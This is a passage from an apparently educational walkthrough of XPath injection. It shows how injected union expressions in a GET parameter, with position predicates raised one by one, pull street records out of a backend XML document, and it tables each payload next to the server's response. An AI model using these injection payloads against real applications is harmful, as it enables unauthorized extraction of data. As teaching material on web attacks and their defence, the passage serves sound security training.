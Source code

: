 From the above results, we can deduce that the schema depth for the street data is `4`:

![image](aSntAKBaEe7S.png)

This allows us to start exfiltrating data by increasing the position in the last predicate until no more data can be retrieved:

| Value of the `f` GET parameter | Response |
| --- | --- |
| `fullstreetname | /*[1]/*[1]/*[1]/*[1] ` | `01ST ST` |
| `fullstreetname | /*[1]/*[1]/*[1]/*[2] ` | `01ST` |
| `fullstreetname | /*[1]/*[1]/*[1]/*[3] ` | `ST` |
| `fullstreetname | /*[1]/*[1]/*[1]/*[4] ` | `No Results!` |

We successfully exfiltrated information about the first street in the data set. The three values seem to be the `long street name`, the `short street name`, and a `street type`. We can thus fill in some of the placeholders of the XML schema from the previous section. However, remember that we still do not know the exact node names. We are just trying to create an overview of the structure of the XML document:

```xml
<a>
	<b>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</b>
</a>

```

We can now extract information about the second street in the data set by incrementing the second to last position predicate in our injected payload like so:

| Value of the `f` GET parameter | Response |
| --- | --- |
| `fullstreetname | /*[1]/*[1]/*[2]/*[1] ` | `02ND AVE` |
| `fullstreetname | /*[1]/*[1]/*[2]/*[2] ` | `02ND` |
| `fullstreetname | /*[1]/*[1]/*[2]/*[3] ` | `AVE` |
| `fullstreetname | /*[1]/*[1]/*[2]/*[4] ` | `No Results!` |

We can do this until we have exfiltrated information about all streets. However, since we are not interested in streets, let us see if the XML document contains other data sets. Incrementing the first position predicate in the payload makes little sense, as this is the document root, and valid XML documents only contain a single document root. However, we can alter the second position predicate to find additional data sets within the XML document. Remember that we need to determine the schema depth again, as it might differ from the depth of the streets data set. To illustrate this, consider the following sample XML document:

